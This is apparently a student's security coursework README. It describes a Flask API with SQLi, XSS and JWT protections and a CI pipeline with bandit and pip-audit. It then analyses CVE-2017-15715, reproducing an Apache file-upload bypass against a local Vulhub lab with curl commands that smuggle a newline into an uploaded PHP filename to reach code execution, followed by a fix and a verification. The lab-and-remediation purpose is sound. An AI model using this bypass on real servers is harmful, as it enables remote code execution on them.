


# Work 1: Secure REST API Development with CI/CD and Real CVE Vulnerability Analysis

**Student Name:** Yu Zhenlei (俞振磊)
**Student ID (HDU number):** 23320217
**Class:** 23320112

**Repository:** https://github.com/Yewleaves/secure-api-lab
**Last successful pipeline run:** https://github.com/Yewleaves/secure-api-lab/actions/runs/39376989825

## 1. Project & API Description
This project is a secure REST API built with Python and the Flask framework, using SQLite for data storage. It implements the following three endpoints:
1. `POST /auth/login` - User authentication (accepts username and password), returns a JWT token upon success.
2. `GET /api/data` - Retrieves data (restricted to authenticated users with a valid Bearer token).
3. `POST /api/posts` - Custom endpoint for creating a new post (protected by JWT).

**How to call the API:**
- Login: `curl -X POST http://127.0.0.1:5000/auth/login -H "Content-Type: application/json" -d '{"username":"alice","password":"password123"}'`
- Get data: `curl http://127.0.0.1:5000/api/data -H "Authorization: Bearer <your_token>"`

## 2. Security Measures Implementation
- **SQL Injection (SQLi) Protection**: All database interactions (e.g., `db.execute`) use parameterized queries (`?` placeholders). String concatenation is strictly avoided.
- **Cross-Site Scripting (XSS) Protection**: When returning user-submitted data (in `POST /api/posts`), the `markupsafe.escape()` function is used to HTML-escape the input, ensuring `<script>` tags are converted to `&lt;script&gt;`.
- **Authentication & Password Hashing**:
  - Passwords are never stored in plaintext. They are hashed and salted using the `bcrypt` algorithm before being stored in the database.
  - Upon successful login, a JWT (HS256 algorithm) valid for 1 hour is issued.
  - A custom `@token_required` middleware intercepts and rejects any requests without a valid token.

### API Testing Screenshots




## 3. CI/CD Security Scanning
A GitHub Actions pipeline (`.github/workflows/ci.yml`) is configured. On every code push, it automatically runs:
- **SAST (Static Application Security Testing)**: Uses `bandit` to scan the source code for security flaws.
- **SCA (Software Composition Analysis)**: Uses `pip-audit` to check for known CVE vulnerabilities in dependencies.

`bandit` runs with `-ll -iii`, i.e. it reports only medium-or-higher severity findings that it is highly confident about.
`pip-audit` is the Python-native SCA scanner: it resolves `requirements.txt` and checks every pinned package against the PyPI/OSV advisory database, and it is invoked with `--strict` so that any known vulnerable dependency fails the build.

### GitHub Actions Screenshot


---

## 4. CVE Vulnerability Analysis (CVE-2017-15715)
**Vulnerability:** Apache HTTP Server File Upload Bypass (Newline Parsing)
**Affected Versions:** Apache 2.4.0 to 2.4.29
**Description:** This vulnerability allows attackers to bypass file upload restrictions. By appending a newline character (`\x0A`) to a filename (e.g., `shell.php\n`), the uploader's blacklist check is bypassed, but Apache still parses and executes the file as a PHP script, leading to Remote Code Execution (RCE).

### Steps to Reproduce
The vulnerable environment is Vulhub's `httpd/CVE-2017-15715`. It ships a small upload page whose `name` field is only checked against a blacklist of PHP extensions, and the base image is pinned to `php:7.0-apache`, i.e. Apache 2.4.10 running PHP through `mod_php` and the `<FilesMatch \.php$>` handler — exactly the surface this CVE abuses.

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/httpd/CVE-2017-15715
# use the same base image as cve-fix/Dockerfile (Apache 2.4.10 + mod_php)
sed -i 's#^FROM .*#FROM php:7.0-apache#' Dockerfile
cp /path/to/secure-api-lab/cve-fix/exploit.py .
docker compose up --build -d      # upload page on http://localhost:8080/index.php
python exploit.py
```

`exploit.py` (also shipped in `cve-fix/`) walks through the three steps and prints the verdict:

1. upload `shell.php` with `name=shell.php` → the extension `php` is blacklisted, the server answers `bad file`;
2. upload the same bytes with `name=shell.php\n` → `pathinfo()` now yields `php\n`, which is not in the blacklist, so the file is written to disk (HTTP 200);
3. request `http://localhost:8080/shell.php%0a` → Apache matches `.php$` against `shell.php\n` and executes the payload, returning the `phpinfo()` page.

```
--- 1. Attempting normal upload of shell.php ---
[SUCCESS] Normal upload was blocked by the server (as expected).

--- 2. Attempting upload bypass using newline character (\n) ---
Status Code: 200

--- 3. Attempting to access the uploaded malicious PHP file ---
[VULNERABLE] Exploit successful! Remote Code Execution (RCE) achieved.
Check the URL in your browser: http://localhost:8080/shell.php%0a
```

The same three steps with curl (`$'...'` lets bash expand `\x0a`):

```bash
printf '<?php phpinfo(); ?>' > shell.php
curl -i -F "file=@shell.php" -F "name=shell.php"      http://localhost:8080/index.php   # -> bad file
curl -i -F "file=@shell.php" -F $'name=shell.php\x0a' http://localhost:8080/index.php   # -> accepted
curl -i "http://localhost:8080/shell.php%0a"                                            # -> phpinfo()
```


### Root Cause Analysis
The vulnerability lies in how PHP's `pathinfo()` function and Apache's `<FilesMatch \.php$>` directive handle newline characters. When a filename like `shell.php\n` is uploaded, `pathinfo()` extracts the extension as `php\n`, which bypasses the blacklist (which only checks for `php`). However, Apache's regex `$` anchor matches the newline character, causing Apache to execute the file as PHP. This is a classic case of **improper input validation**.

### Fix and Verification
- **Fix Applied**: I modified the `index.php` source code to explicitly block filenames containing newline characters using a regular expression: `if (preg_match('/[\r\n]/', $name)) { exit('bad file'); }`. (The fixed `index.php`, its `Dockerfile`/`docker-compose.yml` and the reproduction script `exploit.py` are located in the `cve-fix/` directory.)
- **Environment**: `cve-fix/Dockerfile` reuses the exact same `php:7.0-apache` base as the vulnerable run and only replaces `index.php`. Keeping the image identical isolates the code change, so the result cannot be explained by an Apache upgrade.

```bash
cd cve-fix
docker compose up --build -d
python exploit.py
```

- **Verification**: After applying the fix and restarting the environment, the exact same payload was sent again. The POST still answers HTTP 200, but the body is `bad file` and nothing is written to disk, so requesting the file yields `404 Not Found`. Normal uploads still work:

```
--- 1. Attempting normal upload of shell.php ---
[SUCCESS] Normal upload was blocked by the server (as expected).

--- 2. Attempting upload bypass using newline character (\n) ---
Status Code: 200

--- 3. Attempting to access the uploaded malicious PHP file ---
[SECURE] Exploit failed. The server did not execute the PHP code.
Response snippet: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head>
```

```bash
# regression test: a legitimate upload still succeeds
curl -i -F "file=@shell.php" -F "name=note.txt" http://localhost:8080/index.php
curl -i "http://localhost:8080/note.txt"
# -> HTTP 200, content is served normally
```

This proves the vulnerability is remediated while normal functionality remains intact.


